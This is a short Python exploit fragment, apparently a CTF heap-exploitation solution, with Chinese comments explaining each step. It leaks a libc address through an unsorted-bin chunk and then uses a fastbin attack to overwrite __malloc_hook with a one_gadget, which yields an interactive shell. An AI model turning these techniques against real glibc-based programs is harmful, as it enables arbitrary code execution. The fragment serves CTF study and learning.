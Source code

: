 ```python
delete(2)  #使得chunk2进入unsorted bin。free后chunk2的fd和bk就变成了main_arena+offset，包含在chunk1的内容中
show(1)     #那么我们打印chunk1的内容就能泄漏chunk2的fd
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) -0x3c4b78
malloc_hook =  libc_base + 3951376
#-----------------fastbin attack-------------------------------------#
delete(4)#释放使其进入fastbin
edit(3,p64(0)*7+p64(0x71)+p64(malloc_hook-0x23)) #通过堆块3的溢出修改已经被free的堆块4的fd指针为malloc_hook-0x23。这里算是个公式了，分配到这里才能通过错位构造出0x7f的size域。
add(0x68)#2    #fastbin attack。大佬这里标的是2号堆块我不太懂，刚刚delete的是4号，那这个应该是4号，况且2号堆块不是在unsorted bin里吗？
add(0x68)#4    #这个堆块就分配到__malloc_hook周围了，下面编辑为one_gadget
one = [0xf1147,0xf02a4,0x4526a,0x45216]
one_gadget = libc_base + one[2]
edit(4,b'\x00'*0x13+p64(one_gadget)) #覆盖malloc_hook为one_gadget
add(0x10)
p.interactive() 
```